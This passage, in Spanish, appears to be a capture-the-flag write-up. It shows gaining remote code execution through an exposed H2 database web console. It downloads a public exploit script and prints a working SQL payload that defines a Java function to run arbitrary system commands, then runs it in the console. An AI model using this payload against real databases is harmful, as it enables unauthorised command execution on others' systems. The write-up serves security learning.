 Y vemos esta opción que parece interesante. `Database viewer`
![Write-up Image](images/Screenshot_13.png)

Buscando un poco me encontré [este post en HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/h2-java-sql-database) que nos muestra como podemos conseguir RCE a través de una instancia de una base de datos H2.

Nos vamos a descargar este archivo.
```console
$ wget https://gist.githubusercontent.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed/raw/152ffcd996497e01cfee1ceb7237375f1a1e72f2/h2-exploit.py
```

Analizando el exploit vemos que utiliza este payload.
```
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { 
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); 
    return s.hasNext() ? s.next() : "";  }$$;
```

Nos lo vamos a copiar y lo ejecutamos en el `dbviewer`

Vemos que todo ha salido bien.
![Write-up Image](images/Screenshot_14.png)
